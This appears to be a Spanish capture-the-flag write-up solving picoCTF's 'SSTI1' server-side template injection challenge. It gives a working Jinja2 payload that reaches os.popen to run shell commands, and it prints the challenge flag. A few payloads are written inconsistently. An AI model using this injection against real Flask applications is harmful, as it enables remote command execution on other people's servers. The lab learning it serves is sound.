 ## Reto: SSTI1
### Descripción
I made a cool website where you can announce whatever you want! Try it out!I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:63747/)!

### Solución
Server Side Template Injection

1. Ingresamos al sitio web. Notamos que utiliza plantillas porque tiene un formulario de entrada para anuncios. Como el sitio usa Python, sospechamos que el motor de las plantillas podría ser Jinja2.
2. Enviamos `{{3*3}}` para saber si la entrada es validada como código, y obtenemos `9`, lo que nos lo confirma.
3. Usamos `{{.__class__}}` y obtenemos `class 'flask.config.Config'`, lo que nos confirma que podemos acceder a atributos internos de objetos en la plantilla, o sea que la plantilla es vulnerable a SSTI.
4. Accedemos a la configuración interna de Flask con `{{Config.__class__}}` al obtener `class 'flask.config.Config'`
5. Probamos si el método `int` era accesible con `{{Config.__class__.__int__}}` y obtenemos las variables globales con `{{config.__class__.__init__.__globals__}}`. Descubrimos que `os` estaba disponible.
6. Listamos los archivos del servidor

```
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}

output:`app.py`, `flag`, `requirements.txt`
```

7. Mostramos el contenido de flag
```flag
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}
```


### Notas adicionales
### Referencias

 
